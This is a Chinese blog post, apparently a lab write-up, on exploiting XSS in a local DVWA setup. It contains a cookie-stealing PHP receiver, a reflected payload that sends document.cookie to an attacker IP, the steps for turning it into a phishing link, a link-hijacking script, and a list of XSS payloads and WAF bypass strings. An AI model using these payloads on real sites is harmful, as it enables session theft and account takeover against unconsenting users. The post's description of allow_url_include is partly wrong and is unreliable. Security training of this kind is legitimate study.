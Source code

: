 ```yaml
---
title: xss
date: 2024-01-24 19:50:06
tags:
---
```

# DVWA-master和xss.tesla-space

XSS参考

XSS总结：[https://xz.aliyun.com/t/4067?time__1311=n4%2BxnD0DyGYQqxmw405%2Bb7G8nK%2BT2EqD5x&alichlgref=https%3A%2F%2Flink.csdn.net%2F%3Ftarget%3Dhttps%253A%252F%252Fxz.aliyun.com%252Ft%252F4067](https://xz.aliyun.com/t/4067?time__1311=n4+xnD0DyGYQqxmw405+b7G8nK+T2EqD5x&alichlgref=https://link.csdn.net/?target=https%3A%2F%2Fxz.aliyun.com%2Ft%2F4067)

那些年我们一起学XSS
https://wizardforcel.gitbooks.io/xss-naxienian/content/index.html

XSS漏洞挖掘-进阶
：https://blog.csdn.net/qq_27278819/article/details/133281868

## dvwa准备

### DVWA-master包准备工作

C:\PHPStudy\WWW\DVWA-master\config目录下有config.inc.php.dist文件，复制删去.dist粘贴

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)config文件

将该文件中的相关代码改为自己的数据库信息：

```
$_DVWA = array(); $_DVWA[ 'db_server' ]   = '127.0.0.1';`
`$_DVWA[ 'db_database' ] = 'dvwa'; $_DVWA[ 'db_user' ]     = 'root';`
`$_DVWA[ 'db_password' ] = 'root';
```

开启allow_url_include

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)小皮配置相关php环境

```
 `allow_url_include` 是一个配置指令，用于允许或禁止在 PHP 脚本中包含远程 URL 地址的内容。这个指令在处理包含远程文件或代码的脚本时非常有用，因为它可以防止潜在的安全问题。
在 PHP 配置文件（如 `php.ini`）中，您可以设置 `allow_url_include` 的值来实现以下功能：
1. 如果将 `allow_url_include` 设置为 `On`（默认值），则 PHP 脚本可以包含远程 URL 地址的内容。这意味着如果您的脚本包含诸如 `include('https://example.com/file.php')` 这样的语句，PHP 会执行它并包含远程文件的内容。
2. 如果将 `allow_url_include` 设置为 `Off`，则 PHP 脚本将无法包含远程 URL 地址的内容。这样可以提高安全性，防止误用外部代码或文件。
需要注意的是，即使 `allow_url_include` 设置为 `On`，PHP 也会对包含的 URL 进行验证。不安全的 URL 可能导致脚本执行失败或引发安全警告。因此，在使用远程包含时，请确保 URL 安全可靠。
要更改 `allow_url_include` 的设置，请按照以下步骤操作：
1. 打开 PHP 配置文件（通常位于 `php.ini` 文件）。
2. 找到 `extension=php_url` 这一行。
3. 在该行上方添加以下代码：
```
   zend_extension="php_url.so"
   allow_url_include=On
   ```
   将 `allow_url_include` 的值设置为您所需的状态（On 或 Off）。
4. 保存并关闭配置文件。
5. 重启您的 web 服务器以使更改生效。
   ```

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)安装完成

### 检验环境

kali能ping通且win10可以打开kali网页说明apache环境正常

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)kali

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)kalipingwin10虚拟机

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)打开kali网页

### kali准备

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)kali准备命令

## xss

### 打靶操作

```
cookie.php:<?php 
$cookie=$_GET['cookie']; 
file_put_contents('cookie.txt',$cookie); 
?>
改所有者：chown www-data:www-data cookie.txt 
xss框内所要提交的命令：<script>document.location='http://192.168.2.102/cookie.php?cookie='+document.cookie</script>
正式就是复制上述命令url编码，在输入框内随便输入随机数，记下网址用url覆盖该随机数。即为钓鱼链接
192.168.2.133/DVWA-master/vulnerabilities/xss_r/?name=%3c%73%63%72%69%70%74%3e%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%31%2e%31%30%32%2f%63%6f%6f%6b%69%65%2e%70%68%70%3f%63%6f%6f%6b%69%65%3d%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3c%2f%73%63%72%69%70%74%3e
将所有超链接修改为跳转百度：
<script> 
window.onload = function() { 
var link=document.getElementsByTagName("a"); 
for(j = 0; j < link.length; j++) { 
 link[j].href="https://www.baidu.com";} 
} 
</script>
1. `<script>` 标签：这是一个用于嵌入 JavaScript 脚本的 HTML 标签。当浏览器遇到这个标签时，它会执行其中的代码。
2. `var links = document.getElementsByTagName('a');`：这行代码通过 `document.getElementsByTagName('a')` 方法获取页面中所有的 `<a>` 标签元素。将这些元素存储在名为 `links` 的变量中。
3. `for (var i = 0; i < links.length; i++) {`：这是一个 for 循环，用于遍历存储在 `links` 变量中的所有超链接元素。
4. `links[i].href = 'https://www.baidu.com';`：这行代码将每个超链接的 `href` 属性设置为百度网址（https://www.baidu.com）。
5. `}`：这是 for 循环的结束符。
6. `</script>`：这是 JavaScript 脚本标签的结束符，表示代码段结束。
总之，这段代码的作用是遍历页面中的所有超链接，并将每个超链接的目标 URL 修改为百度网站。
```

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)操作

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)安全等级调为low，选择xss(Reflected)XSS

复制url编码，在输入框内随便输入随机数，记下网址用url覆盖该随机数。

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)bpurl编码

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)结果

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)xss危害与挖掘

### XSS的攻击载荷

```
以下所有标签的 > 都可以用 // 代替， 例如 <script>alert(1)</script//
<script>标签：<script>标签是最直接的XSS有效载荷，脚本标记可以引用外部的JavaScript代码，也可以将代码插入脚本标记中
<script>alert("hack")</script>   #弹出hack
<script>alert(/hack/)</script>   #弹出hack
<script>alert(1)</script>        #弹出1，对于数字可以不用引号
<script>alert(document.cookie)</script>      #弹出cookie
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
svg标签
<svg onload="alert(1)">
<svg onload="alert(1)"//
<img>标签：
<img  src=1  οnerrοr=alert("hack")>
<img  src=1  οnerrοr=alert(document.cookie)>  #弹出cookie
<body>标签：
<body οnlοad=alert(1)>
<body οnpageshοw=alert(1)>
video标签:
<video οnlοadstart=alert(1) src="/media/hack-the-planet.mp4" />
style标签：
<style οnlοad=alert(1)></style>
绕过waf的常用语句
    <svg οnlοad=alert(1)>
    <a href=javascript:alert(1)>
    <IMG SRC=javascript:alert('xss')>
    <IMG SRC=JaVaScRiPt:alert('XSS')>
    <IMG SRC="jav ascript:alert('XSS')">
```

- **本文作者：**20231201
- **本文链接：**[http://example.com/2024/01/16/DVWA-master%E5%92%8Cxss.tesla-space/index.html](http://example.com/2024/01/16/DVWA-master和xss.tesla-space/index.html)
- **版权声明：**本博客所有文章均采用 [BY-NC-SA](https://creativecommons.org/licenses/by-nc-sa/4.0/deed.zh) 许可协议，转载请注明出处！

​    ![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

​          

​        [上传文件与流量分析](file:///2024/01/10/上传文件与流量分析/)  

​                        文章目录：    [dvwa准备](file:///C:/网安程序/hexo/blog/source/_posts/DVWA-master和xss.tesla-space.html#dvwa准备)[DVWA-master包准备工作](file:///C:/网安程序/hexo/blog/source/_posts/DVWA-master和xss.tesla-space.html#DVWA-master包准备工作)[检验环境](file:///C:/网安程序/hexo/blog/source/_posts/DVWA-master和xss.tesla-space.html#检验环境)[kali准备](file:///C:/网安程序/hexo/blog/source/_posts/DVWA-master和xss.tesla-space.html#kali准备)[xss](file:///C:/网安程序/hexo/blog/source/_posts/DVWA-master和xss.tesla-space.html#xss)[打靶操作](file:///C:/网安程序/hexo/blog/source/_posts/DVWA-master和xss.tesla-space.html#打靶操作)[XSS的攻击载荷](file:///C:/网安程序/hexo/blog/source/_posts/DVWA-master和xss.tesla-space.html#XSS的攻击载荷)                 

[                  ](tencent://message/?Menu=yes&uin=894519210)[                  ](javascript:;)[                  ](https://www.instagram.com/izhaoo/)[                  ](https://github.com/zhaoo)[                  ](mailto:izhaoo@163.com)

Powered by [Hexo](https://hexo.io)  |  Theme - [zhaoo](https://github.com/izhaoo/hexo-theme-zhaoo)

​      

​      
